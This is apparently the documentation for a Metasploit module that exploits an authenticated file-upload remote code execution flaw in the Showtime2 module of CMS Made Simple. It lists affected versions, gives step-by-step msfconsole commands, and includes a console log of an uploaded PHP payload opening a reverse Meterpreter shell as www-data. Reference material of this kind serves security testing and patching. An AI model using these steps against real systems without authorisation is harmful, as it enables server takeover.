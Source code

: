 ## Description

This module exploits a File Upload vulnerability that lead in a RCE in Showtime2 module (<= 3.6.2) in CMS Made Simple (CMSMS). An authenticated user with "Use Showtime2" privilege could exploit the vulnerability.

The vulnerability exists in the Showtime2 module, where the class "class.showtime2_image.php" does not ensure that a watermark file has a standard image file extension (GIF, JPG, JPEG, or PNG).

Tested on Showtime2 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2 on CMS Made Simple (CMSMS) 2.2.9.1 and 2.2.10

## Vulnerable Application

Affecting Showtime2 CMS Made Simple (CMSMS) module, version 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. Download Showtime2 module (< 3.6.3)
3. Log-in to admin panel with the administrator credentials
4. Go in *site admin* => *Module Manager* and import the Showtime2 module
5. Once the module is uploaded, click on *install* to install the module
6. [OPTIONALLY] setting up a new user, assign it to a group and set the *Use Showtime2* permissions on group
7. Start `msfconsole`
8. `use exploit/multi/http/cmsms_showtime2_rce`
9. `set RHOST <IP>`
10. `set USERNAME <USERNAME>`
11. `set PASSWORD <PASSWORD>`
12. `check`
13. You should see `The target appears to be vulnerable.`
14. `exploit`
15. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenarios

### Tested on Showtime 3.6.2 on CMS Made Simple (CMMS) 2.2.10

```
msf > use exploit/multi/http/cmsms_showtime2_rce 
msf exploit(multi/http/cmsms_showtime2_rce) > set rhost target.com
rhost => target.com
msf exploit(multi/http/cmsms_showtime2_rce) > check

[*] Showtime2 version: 3.6.2
[*] 192.168.2.59:80 - The target appears to be vulnerable.
msf exploit(multi/http/cmsms_showtime2_rce) > set username Designer
username => Designer
msf exploit(multi/http/cmsms_showtime2_rce) > set password d3s1gn3r
password => d3s1gn3r
msf exploit(multi/http/cmsms_showtime2_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[*] Showtime2 version: 3.6.2
[*] Uploading PHP payload.
[*] Making request for '/06wp7Fen.php' to execute payload.
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:59932) at 2019-03-19 23:27:07 +0100
[!] Tried to delete ./06wp7Fen.php, unknown result

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/cmsms_showtime2_rce) > 
```
